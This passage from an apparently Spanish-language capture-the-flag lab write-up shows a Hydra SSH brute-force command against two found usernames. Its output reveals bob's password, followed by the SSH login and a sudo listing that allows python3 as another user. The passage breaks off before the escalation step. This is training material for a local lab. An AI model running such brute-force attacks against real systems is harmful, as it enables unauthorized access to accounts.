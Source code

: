 Por lo que vemos obtenemos `2` nombres de usuarios, que con esto ya podremos realizar fuerza bruta con dichos nombres de usuarios para ver si coincidieran algunas credenciales para `SSH`.

## Escalate user bob

> users.txt

```
bob
dylan
```

### Hydra

```shell
hydra -L users.txt -P <WORDLIST> ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-16 10:25:13
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 28688798 login tries (l:2/p:14344399), ~448263 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: bob   password: password1
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

### SSH

```shell
ssh bob@<IP>
```

Metemos como contraseña `password1` y veremos que estamos dentro.

## Escalate user balulero

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for bob on b4b6bf85edb6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User bob may run the following commands on b4b6bf85edb6:
    (balulero) NOPASSWD: /usr/bin/python3
```
